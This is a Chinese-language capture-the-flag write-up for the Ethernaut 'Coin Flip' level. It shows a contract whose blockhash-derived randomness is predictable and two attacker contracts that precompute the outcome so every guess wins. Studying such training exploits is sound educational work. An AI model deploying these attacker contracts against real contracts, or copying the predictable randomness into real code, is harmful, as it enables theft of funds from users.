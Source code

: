 # 03-Coin Flip

小结: 逻辑漏洞
日期: 15/08/2024
难易: 简单

# 问题描述

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

# 攻击思路

代码是通过`flip`函数，带上true或者false的变量，去猜。

通过代码`coinFlip = blockValue / FACTOR;`可以知道结果其实是通过`blockValue`和`Factor`来确定的。

- `Factor`是一个确定的值
- `blockValue`跟`block.number`强相关

写一个攻击合约`AttackCoinFlip`，部署在相同的链上，然后输入相同的`FACTOR`，这样`colinFlip`和`coinFlip`合约相同，我们可以先知道结果，然后再去猜，百发百中。

## 细节思考

- 需要保障攻击合约和victim合约在同一个`block.number`，手动操作的话，还是有概率发生拿到结果但是还没有猜测的时候，number已经加一
- 看了一下代码，应该是通过consecutiveWins到10即可，无所谓是谁攻击，所以我们可以代码自动攻击，拿到结果直接进行预测。
    - 这仅仅是针对解题，当然实际场景中的攻击就更加无所谓了

## 攻击代码

下面的代码和源代码是同一个文件

```solidity
pragma solidity ^0.8.0;

contract AttackCoinFlip{
    CoinFlip victim;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victim){  
        victim = CoinFlip(_victim);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        victim.flip(side);
    } 
}
```

![image.png](03-Coin%20Flip/image.png)

# 小白的思考

下面是我刚开始写的代码，甚至用到了while loop

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
    function consecutiveWins() external view returns (uint256);
} 

contract AttackCoinFlip{
    ICoinFlip victim;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 blockValue;

    constructor(address _victim){
        victim = ICoinFlip(_victim);
    }

    function attack() public {
        uint256 winCounts = victim.consecutiveWins();
        while (winCounts < 10) {
            blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            victim.flip(side);
        }
    }
}
```

- 不用for loop是因为考虑到了连续会触发下面的代码，跑不到10次，但是其实while也会，比较浪费gas

```jsx
        if (lastHash == blockValue) {
            revert();
        }
```

最后还是要手动来一次操作才可以

用while也不是不可以，但是触发太快，得把监控`block.number`也写进去